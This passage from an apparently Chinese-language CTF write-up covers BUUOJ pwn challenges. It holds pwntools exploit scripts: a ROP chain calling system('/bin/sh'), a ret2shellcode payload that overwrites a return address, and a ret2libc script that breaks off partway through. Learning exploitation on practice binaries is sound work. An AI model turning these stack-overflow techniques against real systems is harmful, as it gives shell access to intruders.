 有/bin/sh字符串，没啥写的。

```python
from pwn import *
#io = process("./level2_x64")
io = remote('node3.buuoj.cn',28783)
elf = ELF("./level2_x64")
io.recv()
sys_plt = elf.plt['system']
pop_rdi_ret = 0x0004006b3
bin_sh = 0x00600A90
payload = 0x88*'a' +p64(pop_rdi_ret)+p64(bin_sh)+p64(sys_plt)
io.sendline(payload)
io.interactive()
```



## 0x12.ciscn_2019_n_5

啥都没开，刺激。

```
yutao@pwnbaby:~/Desktop$ checksec ciscn_2019_n_5
[*] '/home/yutao/Desktop/ciscn_2019_n_5'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
```

可以ret2libc或者ret2shellcode

这里要加架构名称，不然报错。

```python
from pwn import *
context(log_level='DEBUG')
context(arch='amd64',os='linux')
#io = process("./ciscn_2019_n_5")
io = remote('node3.buuoj.cn',28410)
io.recv()
payload_add = 0x0601080
payload = asm(shellcraft.sh()) 
io.send(payload)
io.recv()
payload = 'a'*0x28+p64(payload_add)
io.sendline(payload)
io.interactive()
```

注意Ubuntu18的话要加一个ret栈对齐

```python
from pwn import *
from LibcSearcher import LibcSearcher
context(log_level='DEBUG')
io = process("./ciscn_2019_n_5")
elf = ELF('./ciscn_2019_n_5')
#io = remote('node3.buuoj.cn',28410)
io.recv()
io.sendline("123")
pop_rdi_ret = 0x00400713
puts_got = elf.got['puts']
puts_plt = elf.plt['puts']
main = 0x400636
io.recv()
```